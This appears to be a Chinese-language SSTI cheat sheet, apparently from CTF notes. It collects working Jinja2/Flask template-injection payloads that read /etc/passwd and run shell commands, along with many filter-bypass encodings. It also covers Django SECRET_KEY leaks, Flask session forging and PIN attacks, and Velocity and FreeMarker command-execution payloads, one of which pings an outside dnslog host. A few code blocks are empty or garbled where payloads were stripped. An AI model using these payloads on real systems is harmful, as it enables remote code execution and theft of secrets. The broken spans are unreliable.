```javascript
<?php
$a = 'whoami';
$result = '';
for($i=0;$i<strlen($a);$i++)
{
 $result .= 'chr('.ord($a[$i]).')%2b';
}
echo substr($result,0,-3);
?>
//chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)
payload:
{{().__class__.__base__.__subclasses__()[257].__init__.__globals__.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read()}}
```

**过滤引号 "、'**

`request.args` 是 `flask `中的一个属性，为返回请求的参数，这里把 `path `当作变量名，将后面的路径传值进来，进而绕过了引号的过滤。

```
{{()**.**__class__**.**__bases__**.**__getitem__(0)**.**__subclasses__()**.**pop(40)(request**.**args**.**path)**.**read()}}    ----->   **&**path**=/**etc**/**passwd
```

- 利用request对象绕过：

flask中存在着request内置对象可以得到请求的信息，request可以用5种不同的方式来请求信息，我们可以利用他来传递参数绕过

```javascript
request.args.name
request.cookies.name
request.headers.name
request.values.name
request.form.name
```

- GET方式，利用request.args传递参数

```javascript
{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd
```

- POST方式，利用request.values传递参数

```javascript
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read()}}
post:arg1=open&arg2=/etc/passwd
```

- Cookie方式，利用request.cookies传递参数

```javascript
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}
Cookie:arg1=open;arg2=/etc/passwd
```

**一些关键字被过滤**

**base64编码绕过**
用于`__getattribute__`使用实例访问属性时。

例如，过滤掉 `__class__ `关键词

```
{{[]**.**__getattribute__('X19jbGFzc19f'**.**decode('base64'))**.**__base__**.**__subclasses__()[40]("/etc/passwd")**.**read()}}
```

**字符串拼接绕过**

join拼接：`{{[]**.**__getattribute__(['__c','lass__']**|**join)**.**__base__**.**__subclasses__()[40]}} `

```javascript
{{()|attr(["_"*2,"cla","ss","_"*2]|join)}}
{{[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()}}
{{()|attr(request.args.f|format(request.args.a))}}&f=__c%sass__&a=l
```

字符串连接：`{{[]**.**__getattribute__('__c'**+**'lass__')**.**__base__**.**__subclasses__()[40]("/etc/passwd")**.**read()}} `

```
{{()['__cla''ss__'].__bases__[0]}}
payload：
{{()['__cla''ss__'].__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['ev''al']("__im""port__('o''s').po""pen('whoami').read()")}}







```

- replace绕过：

```javascript
{{().__getattribute__('__claAss__'.replace("A","")).__bases__[0].__subclasses__()[376].__init__.__globals__['popen']('whoami').read()}}
```

- decode绕过(python2)：

```javascript
{{().__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

过滤init，可以用`__enter__`或`__exit__`替代

```javascript
{{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}

{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

过滤 config，我们通常会用`{{config}}`获取当前设置，如果被过滤了可以使用以下的payload绕过

```javascript
{{self}} ⇒ <TemplateReference None>
{{self.__dict__._TemplateReference__context}}
```

利用unicode编码的方法，绕过关键字过滤

```javascript
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
#等同于：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

**过滤双大括号:**

使用外带数据:

用替代了{{}}，使用判断语句进行dns外带数据

```
1
```

print标记:

我们上面之所以要dnslog外带数据以及使用盲注，是因为用会没有回显，这里的话可以使用print来做一个标记使得他有回显，比如，payload如下

```

```

#### 利用 |attr() Bypass

##### 过滤 . &[ ]:

`**|attr()+__getitem()__**`**绕过：**

```javascript
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
#等同于：
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

##### 过滤_&.&[ ]&'':

`**|attr()+__getitem__+request**`**绕过：**

\#payload的原型：` {{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}} `

```javascript
#由于中括号 `[` 被过滤了，我们可以用 `__getitem__()` 来绕过（尽量不要用pop()），类似如下：

{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
#由于还过滤了下划线 `__`，我们可以用request对象绕过，但是还过滤了中括号 `[]`，所以我们要同时绕过 `__` 和 `[`，就用到了我们的`|attr()`

payload:
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}
&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

##### 过滤args&.&_：

`**|attr()+request(values)**`**绕过：**

```javascript
{{()|attr(request['values']['x1'])|attr(request['values']['x2'])|attr(request['values']['x3'])()|attr(request['values']['x4'])(40)|attr(request['values']['x5'])|attr(request['values']['x6'])|attr(request['values']['x4'])(request['values']['x7'])|attr(request['values']['x4'])(request['values']['x8'])(request['values']['x9'])}}
post:x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('whoami').read()
```

##### 过滤_&.&'：

主要是找到_frozen_importlib_external.FileLoader的get_data()方法，第一个是参数0，第二个为要读取的文件名，payload如下

```
{{().__class__.__bases__[0].__subclasses__()[222].get_data(0,"app.py")}} 
```

使用十六进制绕过后，payload如下

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[222]["get\x5Fdata"](0, "app\x2Epy")}}
```

#### 利用|attr()+ 编码Bypass

##### `Unicode +|attr()`:

```javascript
#过滤了以下字符：
'' & 'request' & '{{' & '_' & '%20(空格)' & '[]' & '.' & '__globals__' & '__getitem__'
#我们用 绕过对 {{ 的过滤，并用unicode绕过对关键字的过滤。
```

我们要构造的payload原型为：` {{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}`

```javascript
#先用|attr()绕过.和[]：
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
#我们可以将过滤掉的字符用unicode替换掉：
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}
```

##### Hex +|attr() :

- 和上面那个一样，只不过是将Unicode编码换成了Hex编码，适用于“u”被过滤了的情况。
- 我们可以将过滤掉的字符用Hex编码替换掉：

```javascript
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}
```

### 尝试执行代码 (来自知乎)https://zhuanlan.zhihu.com/p/93746437

```python
使用魔术方法进行函数解析，再获取基本类：

''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
获取基本类后，继续向下获取基本类 object 的子类：

object.__subclasses__()
找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
查看其引用 __builtins__

Python 程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于 builtins 却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块。


#############
文件操作
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
这里会返回 dict 类型，寻找 keys 中可用函数，直接调用即可，使用 keys 中的 file 以实现读取文件的功能：

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()


# 还可以利用 index() 直接找函数名，然后直接索引调用
[].__class__.__base__.__subclasses__().index(file)
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()


################
命令执行
利用warnings.catch_warnings 进行命令执行。

首先，查看 warnings.catch_warnings 方法的位置：

[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
查看 linecatch 的位置：

[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')
查找 os 模块的位置：

[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')
查找 system 方法的位置：

[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')
调用 system 方法：

[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')

利用 commands 进行命令执行。

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')


{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')


{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

### 尝试命令执行

通过 空字符串`''`，空字典 `{}`，空数组`[]`，空集合`()`等作为出发点，来寻找 `os`类和其他类，进而执行命令

```python
print(type(''))
print(type({}))
print(type([]))
print(type(()))
----------------------
<class 'str'>
<class 'dict'>
<class 'list'>
<class 'tuple'>
```

通过代码来找 空集合的那个类有 OS 类

```python
search = 'os'   # 也可以是其他你想利用的模块
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except Exception as e:
        pass
  
----------------------
<class 'inspect.BlockFinder'> 214
<class 'inspect.Parameter'> 217
<class 'inspect.BoundArguments'> 218
<class 'inspect.Signature'> 219
<class 'logging.LogRecord'> 232
<class 'logging.PercentStyle'> 233
<class 'logging.Formatter'> 234
<class 'logging.BufferingFormatter'> 235
<class 'logging.Filter'> 236
<class 'logging.Filterer'> 237
<class 'logging.PlaceHolder'> 238
<class 'logging.Manager'> 239
<class 'logging.LoggerAdapter'> 240
<class 'pathlib._Flavour'> 244
<class 'pathlib._Selector'> 246
<class 'subprocess.STARTUPINFO'> 258
<class 'subprocess.CompletedProcess'> 259
<class 'subprocess.Popen'> 260
<class 'gzip._PaddedFile'> 271
<class 'shlex.shlex'> 272
<class 'numpy.compat.py3k.contextlib_nullcontext'> 309
<class 'numpy.format_parser'> 319
<class 'numpy._pytesttester.PytestTester'> 331
<class 'numpy.lib.utils._Deprecate'> 341
<class 'numpy.lib._datasource._FileOpeners'> 342
<class 'numpy.DataSource'> 343
<class 'numpy.lib.npyio.BagObj'> 347
<class 'matplotlib.cbook._StrongRef'> 382
<class 'matplotlib.cbook.CallbackRegistry'> 383
<class 'matplotlib.cbook.Stack'> 384
<class 'matplotlib.cbook.Grouper'> 385
<class 'matplotlib.cbook._classproperty'> 386
<class 'uuid.UUID'> 387
<class 'matplotlib.rcsetup.ValidateInStrings'> 415
```

可以看到我的系统里安装的乱七八糟的东西多得很，如果是做题的话，建议用无依赖的环境来尝试

尝试调用 os 

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
().__class__.__bases__[0].__subclasses__()[214].__init__.__globals__['os'].system('whoami')
--------------------
desktop-p7e2la8\sanqiushu
```

完美，其他的几个我也试了，都差不多

```python
print(''.__class__) # 打印空字符的类名
p> <class 'str'>

print(''.__class__.__bases__)  # 打印空字符所在类的基类类名，返回 tuple (元组)
p> (<class 'object'>,)

print(''.__class__.__bases__[0])  # 这里取第0个类
p> <class 'object'>

print(''.__class__.__bases__[0].__subclasses__())  # 打印空字符 所在类的 基类的 第0个类的 所有子类 # 基类一定是 object ，object 的所有子类就是当前环境下的所有类了啊
p> [<class 'type'>, <class 'weakref'>, ....., <class 'kiwisolver.Solver'>] 

print(''.__class__.__bases__[0].__subclasses__()[214])  # 我们取第214个
p> <class 'inspect.BlockFinder'>

print(''.__class__.__bases__[0].__subclasses__()[214].__init__)  # 我们调用类的初始化方法将 inspect.BlockFinder 初始化为一个对象
p> <function BlockFinder.__init__ at 0x000001D9F28048B0>  # 方法当然也是对象了

print(''.__class__.__bases__[0].__subclasses__()[214].__init__.__globals__)  # 打印一下我们初始化的函数的全局变量(也就是属性)
p> {'__name__': 'inspect', '__doc__': "......", '__package__': '', ......, '__builtins__': {'__name__': 'builtins', ......},'os': <module 'os' from 'F:\\Runtime\\python3\\lib\\os.py'>}  # 可以看到这里有 os
print(''.__class__.__bases__[0].__subclasses__()[214].__init__.__globals__['os'])  # 可以直接调用
p> <module 'os' from 'F:\\Runtime\\python3\\lib\\os.py'>
print(''.__class__.__bases__[0].__subclasses__()[214].__init__.__globals__['os'].system('whoami')) # 命令执行
p> desktop-p7e2la8\sanqiushu\n0
```

哈哈哈，同理下面几个只有比较细微的差别

```python
print(''.__class__.__base__.__subclasses__()[214].__init__.__globals__['os'].system('whoami'))
print(''.__class__.__mro__[1].__subclasses__()[214].__init__.__globals__['os'].system('whoami'))
```

自己运行一下看看看即可

### 尝试命令执行 2

使用 `__builtins__`

先来看看 什么是 `__builtins__`

**dir()** 函数不带参数时，返回当前范围内的变量、方法和定义的类型列表；带参数时，返回参数的属性、方法列表。如果参数包含方法__dir__()，该方法将被调用。如果参数不包含__dir__()，该方法将最大限度地收集参数信息。



那么 `**__builtins__**` 是什么呢，他是内建函数，具体原理不做解释，但是其包含一个属性 `eval`



`eval`是可以执行代码的



所以我们找那些那么类有 `**__builtins__**` 属性

```python
search = "__builtins__"
num = -1
for i in ().__class__.__bases__[0].__subclasses__():  ## 遍历所有类
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass

 
p> 
<class '_frozen_importlib._ModuleLock'> 80
<class '_frozen_importlib._DummyModuleLock'> 81
<class '_frozen_importlib._ModuleLockManager'> 82
<class '_frozen_importlib.ModuleSpec'> 83
......
```

多了很多

```python
print(().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')"))
p> desktop-p7e2la8\sanqiushu\n0
```

CTF 中的payload

这时候我们的命令执行payload就出来了：
python3：

```
().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

python2：

```
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```


其他基础类：

```python
获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
#文件操作
{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
```

#### 绕过姿势

过滤 [

```python
#getitem、pop
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
```

过滤 '

```python
#chr函数

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
#命令执行

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```

过滤下划线

```python
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

过滤花括号

```python
#用标记
1
```

这里推荐自动化工具tplmap，拿shell、执行命令、bind_shell、反弹shell、上传下载文件，Tplmap为SSTI的利用提供了很大的便利

## Tornado

```python
{{handler.settings}}
```

## Django

```python
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

## Flask

### session 伪造

密钥寻找

```python
1. app.py文件
2. config.py文件
3. 有关文件读取的代码：
   linux 提供了/proc/self/目录，这个目录比较独特，不同的进程访问该目录时获得的信息是不同的，内容等价于/proc/本进程pid/目录，/proc/self/environ是此文件包含设置的初始环境，换句话说就是该进程的环境变量
4. 可以利用python存储对象的位置在堆上这个特性，app是实例化的Flask对象，而secret key在app.config['SECRET_KEY']，所以可以通过读取/proc/self/mem来读取secret key
```

### PIN码攻击

如果看到调试模式可以尝试

在右边框打开python交互shell控制台，需要输入pin码，然后开启python交互shell控制台，我们就可以进行RCE了

# Java 中的 SSTI

## Velocity

```python
http://127.0.0.1:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
```

## FreeMark

```python
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>

{"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"ping ilxwh0.dnslog.cn\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}
```


参考

 https://www.cnblogs.com/bmjoker/p/13508538.html 